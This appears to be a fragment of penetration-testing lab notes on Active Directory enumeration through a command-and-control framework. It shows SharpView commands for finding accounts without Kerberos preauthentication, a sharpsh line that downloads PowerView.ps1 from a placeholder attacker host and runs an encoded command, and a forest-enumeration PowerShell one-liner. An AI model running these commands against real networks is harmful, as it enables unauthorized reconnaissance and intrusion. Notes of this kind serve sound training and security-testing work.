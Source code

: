 [https://github.com/tevora-threat/SharpView/tree/master/Compiled](https://github.com/tevora-threat/SharpView/tree/master/Compiled)
```bash
execute-assembly /home/htb-ac590/SharpView.exe "get-netuser -PreauthNotRequired" -t 240 -i -E -M
```
- get-domain
- base64 encode a Powerview command and execute
```bash
sharpsh -- '-u http://attackerip:port/PowerView.ps1 -e -c <base64>'
```
## coff loaders (Beacon Object Files)
from the armory
c2tc-domaininfo
- domain functional level reference
  [https://eightwone.com/references/ad-functional-levels/](https://eightwone.com/references/ad-functional-levels/)
- more manual use of execute
```bash
execute -o powershell $Forest = [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest(); $Forest.Domains
```
